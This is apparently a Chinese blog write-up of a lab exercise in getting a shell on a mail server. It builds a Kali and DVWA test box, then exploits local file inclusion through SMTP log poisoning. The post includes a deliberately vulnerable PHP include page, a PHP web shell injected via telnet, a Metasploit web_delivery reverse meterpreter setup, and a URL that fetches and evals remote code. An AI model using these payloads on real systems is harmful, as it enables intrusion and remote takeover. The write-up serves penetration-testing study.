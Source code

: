 ```yaml
---
layout:     post
title:      邮件服务器getshell
date:       2019-1-9
author:     Wh0ale
header-img: img/1.jpg
---
```


# 0x01环境搭建

测试环境

靶机：kali 安装SMTP服务

靶机IP： 192.168.211.179

安装教程：[https://xz.aliyun.com/t/3799#toc-2](https://xz.aliyun.com/t/3799#toc-2)

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fz1iaah438j20hq0grq3h.jpg)

**Thunderbird安装**

①

```
sudo apt-get install thunderbird
```

②

1. 从[Thunderbird 下载页](https://getthunderbird.com/)将 Thunderbird 下载到 home 目录中。（这里我下载的是32bit，uname -a查看系统版本）
2. 打开**终端**，进入 home 目录：`cd ~`
3. 提取已下载文件包中的文件：`tar xjf thunderbird-*.tar.bz2`
4. 如果 Thunderbird 已打开，请先关闭它。
5. 要打开 Thunderbird，运行 thunderbird 文件夹中的 thunderbird 脚本：`~/thunderbird/thunderbird`

Thunderbird 随后会启动。您可以在桌面创建启动器来运行该命令。

**邮件服务器设置**

在刚才的链接中我们知道我们需要

```
/etc/hostname	将默认的主机名改为“ignite”
/etc/hosts		127.0.0.1 mail.ignite.lab ignite    设置一个本地服务器hostname=ignite
```

**添加邮件账户**

```
sudo adduser Wh0ale
Wh0ale@mail.ignite.lab
```

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fz1iq7at0gj20rl0hhju9.jpg)

**模拟发送短信**

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fz1ioa1thij20zg0i0ada.jpg)

**dvwa搭建**

```
uname -a                                                     root@ignite Linux ignite 4.14.0-kali3-686-pae #1 SMP Debian 4.14.17-1kali1 (2018-02-16) i686 GNU/Linux
```

因为kali3默认安装的版本为php.7.0，所以dvwa搭建一直没成功

所以我们进行如下操作

彻底卸载php版本

```bash
sudo aptitude purge `dpkg -l | grep php| awk '{print $2}' |tr "\n" " "`	
```

添加旧源

```bash
echo 'deb http://old.kali.org/kali sana main non-free contrib' >> /etc/apt/sources.list
apt-get update
```

 Debian 下将 PHP 安装入 Apache 2 的例子

```bash
apt-get install php5-common libapache2-mod-php5 php5-cli
```

取得 PHP 附加软件包的列表

```bash
apt-cache search php5
aptitude search php5
aptitude search php5 |grep -i mysql
```

安装 PHP 的 MySQL

```bash
apt-get install php5-mysql php5-curl
```

phpd的问题弄好，接下来直接安装dvwa

```bash
chmod -R 755 /var/www/html/dvwa
```

搭建数据出现如下错误

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fz1iyjo400j20ho0920ts.jpg)

**解决**

运行如下命令连接 MySQL ，默认是进入MariaDB，

```sql
mysql -uroot -p 
```

需要注意，此时需要输入的**密码默认是空**，不需要填写，直接Enter跳过即可

进入mysql，并将mysql的密码改为 **password**

```sql
use mysql；
update user set password=PASSWORD('xxxxxx') where User='root'; 
```

接着逐行进行如下命令行操作：

```sql
create user dvwa;
grant all on dvwa.* to dvwa@localhost identified by 'password';
flush privileges;
grant all on dvwa.* to 'dvwa'@'%';
flush privileges;
```

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fz1j2dvjhpj211r0ipwfx.jpg)



# 0x02 实战

存在文件包含漏洞的代码

```php
<?php

if(array_key_exists("rf", $_GET)){
    $page = $_GET['rf'];
    if($page != ''){
        include($page);
    }
}
else{
    echo '<script>window.location.href = "./incfile.php?rf="</script>';
}
?>

<html>
    <head>
        <meta http-equiv="Content-Type" content="text/html; charset=utf-8"/>
    </head> 
    <body>
        <center>
            <h2>测试页： rf=include($input);</h2>
            <h3>----测试完毕后请立即删除----</h3>
        </center>
    </body>
</html>
```

**dvwa漏洞页面**

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fz1j7iua85j211r0bkn05.jpg)



**STMP日志投毒**

```
nmap -p25 192.168.211.179
```



```
telnet 192.168.211.179 25
MAIL FROM:<rrajchandel@gmail.com>
RCPT TO:<?php system($_GET['c']); ?>
```

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fz1k12ugojj20ef067mxn.jpg)

这里遇到了些小问题

第一个是执行`telnet 192.168.211.179 25`的时候，目标有可能开着防火墙导致出现如下报错

```bash
~ # telnet 192.168.211.179 25                                     root@ignite Trying 192.168.211.179...
telnet: Unable to connect to remote host: Connection refused
```

**执行命令**

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fz1jxapxa8j20yw0k4wga.jpg)



**联合MSF利用**

```bash
use exploit/multi/script/web_delivery
msf exploit (web_delivery)>set target 1
msf exploit (web_delivery)> set payload php/meterpreter/reverse_tcp
msf exploit (web_delivery)> set lhost 192.168.1.109
msf exploit (web_delivery)>set srvport  8888
msf exploit (web_delivery)>exploit
```

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fz1k4p3xwij20gw0nttc7.jpg)



```php
php -d allow_url_fopen=true -r "eval(file_get_contents('http://192.168.211.179:8888/LkIB45CTfpH'));"
```

执行

```
http://192.168.211.179/dvwa/vulnerabilities/fi/?page=/var/log/mail.log&c=php%20-d%20allow_url_fopen=true%20-r%20%22eval(file_get_contents(%27http://192.168.211.179:8888/LkIB45CTfpH%27));%22
```

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fz1k5to3g5j20zk05mgmz.jpg)

**获得反向shell**

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fz1k7hpfqqj20ho08eq3u.jpg)

整个复现流程很流畅，一些坑点都写在了上面，通过这篇文章我发现了文件包含漏洞的厉害之处，不仅在于邮件服务器这个姿势，可以和很多漏洞打组合拳,例如session文件包含，php伪协议，phar，还有软链接文件。之后在做渗透测试会多留意这块。





Reference:

[http://www.cnblogs.com/JetpropelledSnake/p/9128613.html](http://www.cnblogs.com/JetpropelledSnake/p/9128613.html)

[https://xz.aliyun.com/t/3799#toc-2](https://xz.aliyun.com/t/3799#toc-2)

